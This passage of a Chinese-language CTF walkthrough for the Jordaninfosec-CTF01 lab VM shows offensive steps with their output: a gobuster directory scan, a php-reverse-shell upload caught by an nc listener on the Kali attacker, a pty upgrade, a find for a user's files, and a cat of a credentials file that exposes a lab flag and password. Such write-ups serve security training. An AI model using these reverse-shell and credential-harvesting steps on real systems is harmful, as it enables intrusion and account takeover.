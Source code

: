 *   /robots.txt (Status: 200)
    
*   /hint.txt (Status: 200)
    

```
root@kali:~#  gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://192.168.44.143 -t 100 -x txt/assets (Status: 301)/css (Status: 301)/js (Status: 301)/flag (Status: 301)/flag.txt (Status: 403)/robots.txt (Status: 200)/uploaded_files (Status: 301)/hint.txt (Status: 200)/server-status (Status: 403)
```

那怎么才能获取 flag.txt 内容呢？此时你需要想到用户权限的限制和提取处理。

最后补充另一种提权方法，上传 php-reverse-shell 反弹 shell 到 kali 攻击机得到 shell。

```
root@redwand:~# rlwrap nc -lvp 6666listening on [any] 6666 ...192.168.0.149: inverse host lookup failed: Unknown hostconnect to [192.168.0.103] from (UNKNOWN) [192.168.0.149] 56148Linux Jordaninfosec-CTF01 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux 04:28:10 up 52 min,  0 users,  load average: 0.00, 2.25, 3.94USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHATuid=33(www-data) gid=33(www-data) groups=33(www-data)/bin/sh: 0: can't access tty; job control turned off$ python3 -c 'import pty;pty.spawn("/bin/bash")'www-data@Jordaninfosec-CTF01:/$
```

5.Fourth flag
-------------

刚才在第三个 flag 提示我们 “try to find user technawi password to read the flag.txt file, you can find it in a hidden file”，表示需要用 technawi 读取 flag.txt 文件，我们可以在隐藏文件中找到用户的信息。那怎么去实现呢？

第一步，我们在蚁剑中启动 shell 的命令行模式，命令 “2>/dev/null” 表示过滤掉类似没有权限的信息。

*   **find / -user ‘technawi’ 2>/dev/null**
    

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROMRlYqhkCenSmmvHpEHwEPKJrvzVYhPsTVF9AyUOf4wudkZTfA0o5FEFtiaNzqBCWAmpWxIcINdCQ/640?wx_fmt=png)

我们看到了一个特殊的文件 / etc/mysql/conf.d/credentials.txt ，尝试去读一下里面的信息，得到 flag。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROMRlYqhkCenSmmvHpEHwEPsf1nFy2vewIWQCiaF2PJgibGPkgb9I2FSwJ7H3cgt95MOcT03ktB4a4A/640?wx_fmt=png)

```
(www-data:/var/www/html) $ find / -user 'technawi' 2>/dev/null/etc/mysql/conf.d/credentials.txt/var/www/html/flag.txt/home/technawi/home/technawi/.cache/home/technawi/.bash_history/home/technawi/.sudo_as_admin_successful/home/technawi/.profile/home/technawi/.bashrc/home/technawi/.bash_logout(www-data:/var/www/html) $ cat /etc/mysql/conf.d/credentials.txtThe 4th flag is : {7845658974123568974185412}username : technawipassword : 3vilH@ksor(www-data:/var/www/html) $
```

获取第四个 Flag 和 technawi 用户对应的密码。

*   The 4th flag is : {78456xxxx85412}
    
*   username : technawi
    
*   password : 3vilH@ksor
    
